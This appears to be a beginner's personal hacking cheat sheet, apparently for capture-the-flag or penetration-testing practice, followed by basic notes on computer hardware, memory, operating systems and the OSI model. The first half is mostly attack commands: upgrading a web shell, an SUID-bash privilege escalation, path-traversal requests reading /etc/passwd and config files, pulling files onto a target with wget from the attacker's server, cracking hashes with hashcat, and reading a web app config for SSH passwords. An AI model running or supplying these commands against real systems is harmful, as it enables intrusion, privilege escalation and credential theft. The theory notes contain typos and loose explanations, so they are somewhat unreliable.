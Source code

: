 # Guide404
simple guide for noobs

----------------------GENERAL-----------------
(For every domain you find:)
1. nano /etc/hosts
(Harden the web shell)

2. python3 -c 'import pty; pty.spawn("/bin/bash")'   (SHELL HARDERING)
stty raw -echo; fg
export TERM=xterm
or
script /dev/null -c bash
stty raw -echo
fg
reset

3. (move one file from your machine to the target , if you have a ssh connection)
   --> python3 -m http.server 8888 (in the directory of yhe file you want to send)
   --> wget http://<myIP>:<port>/filename   (at target's pc)


4. cp /bin/bash /tmp/bash && chmod u+s /tmp/bash
   cd /tmp
   ./bash -p
   whoami

--------------------LFI---------------------
1. (throught pdf export/download) (known exploitable files: https://github.com/hussein98d/LFI-files/blob/master/list.txt):
   --> (burpsuite) GET /download?filename=../../../../../etc/passwd HTTP/1.1
   --> GET /download?filename=../../config/database.yml HTTP/1.1

-----------------------------HASHES-----------------------------
1. go at hashcat id tables and ctr+F to searc your hash and take the id
2. hashcat -m <id> hash.txt /usr/share/wordlists/rockyou.txt

-----------------------------WEBSHELL-----------------------
(after you get a web shell)
1. python3 -c 'import pty; pty.spawn("/bin/bash")'
stty raw -echo; fg
export TERM=xterm
2. cat /var/www/limesurvey/application/config/config.php (you might find password for ssh)





                                                                                             SOME THEORY

A PC has those 5 components:
1)CPU     --> a) ALU (Arithmetic Logic Unit) does calculations   b) CU (Control unit) manage data/orders   c) Registers (short term storaging)  ||||| fetch->Decode->Excecute->Repeat
2)RAM     --> Fast temporary memory --> DDR4/DDR5
3)Hard Disk (ssd/hdd) or new gen (NVMe SSD)     -->SSD (faster,reliable,no noisy)   HDD (Bigger space than ssd, noisy and if it moves it can stop working)   
4)Motherboard
5)GPU
+ input/output devices (I/O)

inputs --> (CPU) processing --> (RAM/HardDisk) storage --> output


-----------------------------------------MEMORY-----------------------------------
overall memories --> a) Registers   b) Cashe (L1, fast but small|||L2,slow but bigger|||L3, even slower but bigger too)   c)RAM   d) HardDisk
when we open a program:
CPU loads it to the RAM from the HardDisk, and CPU reads it from the RAM and stores the data at Cache or Registers
If RAM is full, PC uses some space from HardDisk, like a Virtual Memory ----> Known us Paging (slower than RAM)


---------------------------------------OS--------------------------------
What it does?
1) CPU sheduling
2) RAM-VM sheduling
3) Storage management
4) I/O devices management
5) Files management

it has 4 parts:
1)Kernel: the core/brain of it, it communicates with the hardware and loads the programs at RAM.
2)Shell: the interface for the communication with the user
3)File System: the way the pc stores and manages the files (known ones: NTFS, FAT32, EXT4)
4)Drivers (softwares)

So when i open a PC, the 'Boot loader" loads the OS at RAM, the kernel starts the "start-ups" services and then every time you open a program: the OS loads it to the RAM, CPU execute the orders and the OS handle the data and communication user-program.

-------------------------------------Networking--------------------------------------

The base of nowadays networks are the Nodes and the Links
Types of networks: 
1) LAN
2) WAN
3) WLAN (wireless)
4) VPN
   The protocoles used are:
1)IP  (manages the addresses on the network)
2)TCP (slower but reliable)
3)UDP (fast but not so reliable)

The model that is commonly used is the OSI Model:
That has 7 layers:
7)Application          (HTTP,HTTPS,QUICK) apis
6)Presentation         cryptography
5)Session              manages connections/sessions
4)Transport            TCP/UDP
3)Network              IP
2)Data Link            Machine-Machine
1)Physical             wires/signals




